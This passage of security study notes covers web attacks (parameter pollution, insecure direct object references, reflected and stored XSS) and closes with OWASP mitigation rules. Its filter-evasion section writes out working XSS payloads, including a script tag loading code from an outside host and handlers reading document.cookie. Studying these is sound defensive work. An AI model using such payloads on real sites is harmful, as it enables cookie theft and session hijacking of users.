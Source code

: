 - attacker can find HPP vulnerabilities by finding forms or actions that allow user-supplied input
### 6.6.4 – Insecure Direct Object Reference Vulnerabilities
*Insecure Direct Object Reference* Vulnerabilities can be exploited when web applications allow direct access to objects based on user input
## 6.7 – Understanding Cross-Site Scripting (XSS) Vulnerabilities
### 6.7.2 – Reflected XSS Attacks
*Reflected XSS* attacks occur when malicious code or scripts are injected by a vulnerable web application using any method that yields a response as part of a valid HTTP request
**Step 1**
- attacker finds vulnerability in the web server
**Step 2**
- attacker sends a malicious link to the victim
**Step 3**
- victim clicks on malicious link, and the attack is sent to the vulnerable server
**Step 4**
- attacker is reflected to the victim and is executed
**Step 5**
- victim sends information to the attacker
### 6.7.4 – Stored XSS Attacks
*Stored/Persistent XSS* attacks occur when malicious code or script is permanently stored on a vulnerable or malicious server, using a database
- typically carried out on websites hosting blog posts, web forums, and other permanent storage methods
### 6.7.6 – XSS Evasion Techniques
XSS Javascipt Injection
```html
<SCRIPT SRC=http://maliciious.h4cker.org/xss.js></SCRIPT>
```
HTML img tag can be used to evade XSS Filters
```HTML
<img src="javascript:alert('xss');">
<img src=javascript:alert('xss')>
<img src=javascript:alert(&quot;XSS&quot;)>
<img src=javascript:alert('xss')>
```
Use other malicious HTML tags
```HTML
<a onmouseover="alert(document.cookie)">This is a malicious link</a>
<a onmouseover=alert(document.cookie)>This is a malicious link</a>
```
Attacker may use combination of hex HTML character references to potentially evade XS filters
```HTML
<img src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&
#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```
### 6.7.7 – XSS Mitigations
The following are general rules for preventing XSS attacks, according to OWASP
- use an auto-escaping template system
- never insert untrusted data except in allowed locations
- use HTML escape before inserting untrusted data into HTML element content
- use attribute escape before inserting untrusted data into HTML common attributes
- use javascript escape before inserting untrusted data into javascript data values
- use CSS escape and strictly validate before inserting untrusted data into HTML-style property values
- use URL escape before inserting untrusted data into HTML URL parameter values
- sanitize HTML markup with a library such as ESAPI to protect the underlying application
- prevent DOM-based XSS by following [OWASP’s recommendations](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- use the HTTPOnly cookie flag